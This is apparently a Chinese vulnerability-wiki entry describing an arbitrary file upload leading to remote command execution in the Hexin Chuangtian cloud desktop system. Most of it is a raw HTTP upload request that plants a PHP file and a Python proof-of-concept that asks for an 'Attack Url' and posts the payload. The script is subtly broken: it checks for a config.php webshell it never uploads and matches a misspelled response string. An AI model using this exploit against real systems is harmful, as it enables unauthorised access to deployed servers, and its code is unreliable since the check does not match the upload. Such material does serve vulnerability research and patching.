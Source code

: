 # 和信创天云桌面系统 远程命令执行 RCE漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

> [!NOTE]
>
> 和信创天云桌面系统

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/hx-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送请求包如下

```
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--

```

访问

```
http://xxx.xx.xxx.xxx/Upload/1/test.php
```

![](http://wikioss.peiqi.tech/vuln/hx-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import base64
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 和信云桌面任意文件上传漏洞                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/Upload/upload_file.php?l=test"
    headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
            "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv"
    }
    data = base64.b64decode("Q29udGVudC1UeXBlOiBtdWx0aXBhcnQvZm9ybS1kYXRhOyBib3VuZGFyeT0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5ZmNLUmx0R3YKCi0tLS0tLVdlYktpdEZvcm1Cb3VuZGFyeWZjS1JsdEd2CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0iZmlsZSI7IGZpbGVuYW1lPSJ0ZXN0LnBocCIKQ29udGVudC1UeXBlOiBpbWFnZS9hdmlmCgo8P3BocCBwaHBpbmZvKCk7Pz4KLS0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5ZmNLUmx0R3YtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "Requst" in response.text and response.status_code == 200:
            webshell_url = target_url + "/Upload/test/config.php"
            response = requests.get(url=webshell_url, headers=headers,verify=False, timeout=5)
            if "shell" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 config.php\n[o] 路径为 {}/Upload/test/config.php\033[0m".format(target_url, target_url))
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        else:
            print("\033[31m[x] 上传失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/hx-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)